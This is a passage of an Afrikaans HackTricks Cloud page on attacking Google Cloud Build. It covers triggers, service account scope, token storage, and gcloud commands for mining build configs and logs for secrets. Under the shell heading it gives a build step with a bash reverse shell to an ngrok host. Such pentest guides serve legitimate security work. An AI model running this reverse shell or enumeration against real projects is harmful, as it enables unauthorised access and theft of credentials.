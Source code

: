 # GCP - Wolkbou Enum

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy in HackTricks wil adverteer** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Basiese Inligting

Google Cloud Build is 'n bestuurde CI/CD-platform wat **sagtewarebou-** en vrystellingsprosesse outomatiseer, integreer met **bronkode-opgaarplekke** en 'n wye verskeidenheid programmeertaal ondersteun. Dit **stel ontwikkelaars in staat om kode outomaties te bou, te toets en te implementeer**, terwyl dit die buigsaamheid bied om boustappe en werkstrome aan te pas.

Elke Cloud Build Trigger is **verwant aan 'n Cloud Repository of direk gekoppel aan 'n eksterne opgaarplek** (Github, Bitbucket en Gitlab).

{% hint style="success" %}
Ek kon nie enige manier sien om die Github/Bitbucket-token hier of vanaf Cloud Repositories te steel nie, omdat wanneer die opgaarplek afgelaai word, dit via 'n [https://source.cloud.google.com/](https://source.cloud.google.com/) URL toegang kry en Github nie deur die kliënt benader word nie.
{% endhint %}

### Gebeure

Die Cloud Build kan geaktiveer word as:

* **Druk na 'n tak**: Spesifiseer die tak
* **Druk 'n nuwe etiket**: Spesifiseer die etiket
* **Pull-aanvraag**: Spesifiseer die tak wat die PR ontvang
* **Handmatige aanroeping**
* **Pub/Sub-boodskap**: Spesifiseer die onderwerp
* **Webhook-gebeurtenis**: Sal 'n HTTPS-URL blootstel en die versoek moet geïdentifiseer word met 'n geheim

### Uitvoering

Daar is 3 opsies:

* 'n yaml/json wat die opdragte spesifiseer om uit te voer. Gewoonlik: `/cloudbuild.yaml`
* Slegs een wat "inline" in die webkonsol en in die opdraglyn gespesifiseer kan word
* Mees algemene opsie
* Relevant vir ongeagte toegang
* 'n **Dockerfile** om te bou
* 'n **Buildpack** om te bou

### SA-permissies

Die **Service Account het die `cloud-platform`-omvang**, sodat dit **alle voorregte kan gebruik.** As **geen SA gespesifiseer is** (soos wanneer dit ingedien word), sal die **standaard SA** `<proj-nommer>@cloudbuild.gserviceaccount.com` **gebruik word.**

Standaard word geen toestemmings gegee nie, maar dit is redelik maklik om dit te gee:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Goedkeurings

Dit is moontlik om 'n Cloud Build te konfigureer om **goedkeuring vir bou-uitvoerings te vereis** (standaard gedeaktiveer).

### Verbindings & Opgaarplekke

Verbindings kan geskep word oor:

* **GitHub:** Dit sal 'n OAuth-aanvraag vertoon wat vra vir toestemmings om 'n **Github-token te kry** wat binne die **Secret Manager** gestoor sal word.
* **GitHub Enterprise:** Dit sal vra om 'n **GithubApp** te installeer. 'n **Identifikasietoken** vanaf jou GitHub Enterprise-gashuis sal geskep en in hierdie projek as 'n **Secret Manager**-geheim gestoor word.
* **GitLab / Enterprise:** Jy moet die API-toegangstoken en die Leestoegangstoken vir die API **verskaf wat in die Secret Manager gestoor sal word.**

Sodra 'n verbinding gegenereer is, kan jy dit gebruik om **opgaarplekke wat die Github-rekening toegang tot het**, te koppel.

Hierdie opsie is beskikbaar deur die knoppie:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Let daarop dat opgaarplekke wat met hierdie metode gekoppel is, **slegs beskikbaar is in Triggers wat 2de generasie gebruik.**
{% endhint %}

### Koppel 'n Opgaarplek

Dit is nie dieselfde as 'n **`verbindings`** nie. Dit bied **verskillende** maniere om **toegang tot 'n Github- of Bitbucket**-opgaarplek te kry, maar **skep nie 'n verbindingsvoorwerp nie, maar dit skep wel 'n opgaarplekvoorwerp (van 1ste generasie).**

Hierdie opsie is beskikbaar deur die knoppie:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Berging

Soms sal Cloud Build 'n nuwe berging genereer om die lêers vir die trigger te stoor. Dit gebeur byvoorbeeld in die voorbeeld wat GCP aanbied met:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
'n Stoorbak genaamd [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) is geskep om 'n `.tgz` te stoor met die lêers wat gebruik moet word.

### Kry skulpry
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Opname

Jy kan **sensitiewe inligting in boukonfigurasies en logboeke** vind.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Voorregverhoging

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Ongeagte Toegang

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Na-uitbuiting

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>
